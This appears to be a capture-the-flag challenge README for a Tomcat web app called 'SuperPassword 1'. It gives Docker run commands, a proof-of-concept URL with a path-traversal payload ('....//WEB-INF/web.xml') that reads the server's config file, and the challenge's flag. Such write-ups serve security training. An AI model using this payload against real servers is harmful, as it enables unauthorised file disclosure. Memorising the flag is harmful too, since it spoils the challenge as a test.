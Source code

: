 # SuperPassword 1

## RUN
```bash
docker build -t superpass2 .
docker tag superpass2 ccr.ccs.tencentyun.com/360ctf/superpass2
docker run -d --rm -p 8082:8080 --read-only --tmpfs /usr/local/tomcat/logs --tmpfs /usr/local/tomcat/temp --tmpfs /usr/local/tomcat/work --name superpass2 superpass2
```

## PoC

```url
http://localhost:8082/bundle?file=....//WEB-INF/web.xml
```


flag{1b14090d4b8b4b41229751dba795349a}
